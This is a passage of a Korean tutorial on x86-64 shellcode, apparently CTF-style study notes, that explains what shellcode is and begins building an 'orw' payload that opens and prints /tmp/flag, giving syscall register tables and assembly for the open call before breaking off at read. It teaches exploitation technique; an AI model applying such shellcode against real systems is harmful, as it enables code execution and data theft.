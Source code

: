 # 쉘코드
**쉘코드**는 익스플로잇을 위해 제작된 어셈블리 코드 조각을 일컫는다. 일반적으로 쉘을 획득하기 위한 목적으로 쉘코드를 사용해서, 특별히 "쉘"이 접두사로 붙었다. 쉘을 획득하는 것은 시스템 해킹의 관점에서 매우 중요한데, 그 이유는 execve 쉘 코드에서 살펴본다.

만약 해커가 rip를 자신이 작성한 쉘코드로 옮길 수 있으면 해커는 원하는 어셈블리 코드를 실행시킬 수 있다. 어셈블리어는 기계어와 거의 일대일 대응되므로 사실상 원하는 모든 명령을 CPU에 내릴 수 있게 된다.

쉘코드는 어셈블리어로 구성되므로 공격을 수행할 대상 아키텍처와 운영체제에 따라, 그리고 쉘코드의 목적에 따라 다르게 작성된다. 아키텍처별로 자주 사용되는 쉘코드를 모아 공유하는 사이트도 존재한다. 그러나 공유되는 쉘코드는 범용적으로 작성된 것이기 때문에, 실행될 때의 메모리 상태 같은 시스템 환경을 완전히 반영하지는 못한다. 따라서 최적의 쉘코드는 일반적으로 직접 작성해야 하며, 상황에 다라 반드시 그래야만 할 수도 있다. 쉘코드를 공유하는 서비스가 있다는 사실을 알고있되, 이런 상황을 대비해 언제든 스스로 작성할 수 있어야 한다.

## orw 쉘코드 작성

orw 쉘코드는 파일을 열고, 읽은 뒤 화면에 출력해주는 쉘코드다. 

구현하려는 쉘코드의 동작을 c언어 형식의 의사코드로 표현하면 다음과 같다.
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);

orw 쉘코드를 작성하기 위해 알아야 하는 syscall은 다음과 같다.

1. int fd = open("/tmp/falg", O_RDONLY, NULL)
syscall = open
rax = 0x02
arg0(rdi) = const char* filename
arg1(rsi) = int flags
arg2(rdx) = umode_t mode

첫 번째로 해야 할 일은 "/tmp/flag" 라는 문자열을 메모리에 위치시키는 것임. 이를 위해 스택에 0x616c662f706d742f67(/tmp/flag)를 push 하여 위치시키도록 만들 것임. 하지만 스택에는 8바이트 단위로만 값을 push할 수 있으므로 0x67을 우선 push한 후, 0x616c662f706d742f를 push한다. 그리고 rdi가 이를 가리키도록 rsp를 rdi로 옮긴다.

O_RDONLY는 0이므로, rsi는 0으로 설정합니다.

파일을 읽을 때, mode는 의미를 갖지 않으므로, rdx는 0으로 설정한다.

마지막으로 rax를 open의 syscall 값인 2로 설정한다.

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

2. read(fd, buf, 0x30)
syscall = read
rax = 0x00
rdi = unsigned int fd
rsi = char* buf
rdx = size_t count
